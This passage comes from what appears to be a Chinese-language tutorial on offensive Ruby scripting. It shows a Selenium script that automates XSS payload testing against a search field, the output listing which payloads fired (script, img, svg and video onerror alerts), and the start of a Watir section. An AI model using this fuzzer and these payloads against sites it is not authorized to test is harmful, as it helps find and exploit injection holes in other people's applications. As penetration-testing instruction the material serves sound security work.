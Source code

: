 ```
wait = Selenium::WebDriver::Wait.new(:timeout => 10)        # Timeout to wait

payloads.each do |payload|
  input = wait.until do
      element = browser.find_element(:name, 'txtSearch')
      element if element.displayed?
  end
  input.send_keys(payload)
  input.submit

  begin
    wait.until do
      txt = browser.switch_to.alert
      if (1..100) === txt.text.to_i
        puts "Payload is working: #{payload}"
        txt.accept
      end
    end
  rescue Selenium::WebDriver::Error::NoAlertOpenError
    puts "False Positive: #{payload}"
    next
  end

end

browser.close 
```

结果

```
> ruby selenium-xss.rb
Payload is working: <video src=x onerror=alert(1);>
Payload is working: <img src=x onerror='alert(2)'>
Payload is working: <script>alert(3)</script>
Payload is working: <svg/OnlOad=prompt(4)>
False Positive: javascript:alert(5)
False Positive: alert(/6/.source) 
```

## Watir Webdriver

[**Watir**](http://watirwebdriver.com/) 是 (Web Application Testing in Ruby) 的缩写。我认为 Watir 比 Selenium 更优雅，但我喜欢知道完成同样任务的多种方式，以防万一。

+   安装 watir gem

    ```
    gem install watir 
    ```

### GET 请求
